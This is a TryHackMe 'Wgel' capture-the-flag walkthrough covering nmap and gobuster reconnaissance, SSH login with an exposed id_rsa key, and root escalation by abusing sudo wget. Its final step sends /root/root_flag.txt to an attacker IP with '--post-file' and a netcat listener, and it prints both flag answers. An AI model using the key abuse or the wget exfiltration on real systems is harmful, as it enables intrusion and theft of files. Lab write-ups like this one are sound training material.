 # Wgel

<div align="left">

<figure><img src="../.gitbook/assets/image (148).png" alt="" width="188"><figcaption></figcaption></figure>

</div>

🔗 [Wgel](https://tryhackme.com/room/wgelctf)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.22.231`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.22.231 wgel.thm" >> /etc/hosts

mkdir thm/wgel.thm
cd thm/wgel.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 wgel.thm
ING wgel.thm (10.10.22.231) 56(84) bytes of data.
64 bytes from wgel.thm (10.10.22.231): icmp_seq=1 ttl=63 time=63.8 ms
64 bytes from wgel.thm (10.10.22.231): icmp_seq=2 ttl=63 time=69.9 ms
64 bytes from wgel.thm (10.10.22.231): icmp_seq=3 ttl=63 time=63.3 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 wgel.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 13:14 EDT
Initiating SYN Stealth Scan at 13:14
Scanning wgel.thm (10.10.22.231) [65536 ports]
Discovered open port 22/tcp on 10.10.22.231
Discovered open port 80/tcp on 10.10.22.231
Completed SYN Stealth Scan at 13:14, 14.20s elapsed (65536 total ports)
Nmap scan report for wgel.thm (10.10.22.231)
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-06 13:14:45 EDT for 14s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 21, 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 wgel.thm -oN nmap/open_port
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that we've two open ports: 22 and 80.

### Task 3 - What are the contents of user.txt?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

and see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

Very good! Thanks to this message, we know that Jessie is a user/web master.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u wgel.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

We can explore /sitemap path:

<figure><img src="../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

We can try to do a new gobuster search start at this point:

```bash
gobuster dir -u wgel.thm/sitemap -w /usr/share/wordlists/dirb/common.txt  
```

<figure><img src="../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

</div>

we've find and id\_rsa:

<figure><img src="../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

remembering that we've user and id rsa, first take permission to id\_rsa file and try login:

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@wgel.thm
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-10-07 15-16-33.png" alt=""><figcaption></figcaption></figure>

</div>

We're in, try to find user.txt flag using find command:\


```bash
find / -type f -iname "*flag.txt" 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user_flag.txt)</summary>

057c67131c3d5e42dd5cd3075b198ff6

</details>

### Task 4 - What are the contents of root.txt?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

We can run /usr/bin/wget as root. Perfect, time to go to GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) and find our exploit.&#x20;

<figure><img src="../.gitbook/assets/image (151).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/wget/">https://gtfobins.github.io/gtfobins/wget/</a></p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

</div>

unfortunately, it doesn't work!

Checking on google, we find this good article that suggests to use post-file option of wget  command, to send the content of any file.

<figure><img src="../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/">https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/</a></p></figcaption></figure>

More probably root flag there're in root path and its name will be similar than user\_flag.txt, then, we can try to setting post-file option: —post-file=/root/root\_flag.txt, add our IP and open a listen session with netcat to receive file.

<figure><img src="../.gitbook/assets/image (162).png" alt=""><figcaption><p>find IP and listen on port 4444</p></figcaption></figure>

```bash
sudo /usr/bin/wget http://10.9.80.228:4444 --post-file=/root/root_flag.txt
```

<figure><img src="../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root_flag.txt)</summary>

b1b968b37519ad1daa6408188649263d

</details>
